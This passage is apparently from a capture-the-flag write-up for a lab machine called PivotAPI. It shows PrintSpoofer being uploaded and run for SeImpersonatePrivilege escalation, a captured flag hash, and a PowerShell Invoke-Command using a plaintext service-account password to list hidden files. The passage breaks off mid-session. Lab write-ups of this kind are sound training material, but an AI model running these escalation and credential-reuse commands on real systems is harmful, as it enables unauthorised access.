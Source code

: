 ```ruby
```

* **let's go.**

> **here we go.**

![](https://i.ibb.co/wy3Wr8m/sql-shell.png)

> **let's upload `PrintSpoofer` now.**

![](https://i.ibb.co/Qm80ZcB/uploading.png)

> **let's try to read the flag with this command `printspoofer.exe -i -c "powershell -c type C:\Users\3v4Si0N\Desktop\user.txt"`**

```ruby

CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\temp> printspoofer.exe -i -c "powershell -c type C:\Users\3v4Si0N\Desktop\user.txt"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out.
CMD MSSQL$SQLEXPRESS@PIVOTAPI C:\temp> 

```

![](https://raw.githubusercontent.com/davidcelis/gifs/master/no/hair-flip.gif)

> **HAHAHAHAHAH NO THAT EASY.**

> **When solving this machine with my friend the PrintSpoofer work successfully and give us this.**

```ruby

[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
4855ef51169f74e4d5d79befd933d719

```

> **but when i try to solve it in another time it's give me the error of `time out` and this because the way to read the flag with PrintSpoofer was batched and this was the `unintended` way, and now i will show you a new travel to own this machine.**

## The Intended Way

> **let's deep dive in the machine.**

> **from the sql shell we can execute powershell commands, and i want to enumerate the directories of this user we have so type this command.**

> **`powershell.exe -command "$password = ConvertTo-SecureString '#mssql_s3rV1c3!2020' -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential ('LICORDEBELLOTA\svc_mssql', $password); Invoke-Command -Credential $credential -ComputerName PivotAPI -ScriptBlock {Get-ChildItem C:\Users\svc_mssql\ -Recurse -Hidden}"`**


[pivotAPI]: PS C:\> cd .\Developers\
[pivotAPI]: PS C:\Developers> ls
[pivotAPI]: PS C:\Developers> cd jari
[pivotAPI]: PS C:\Developers\jari> ls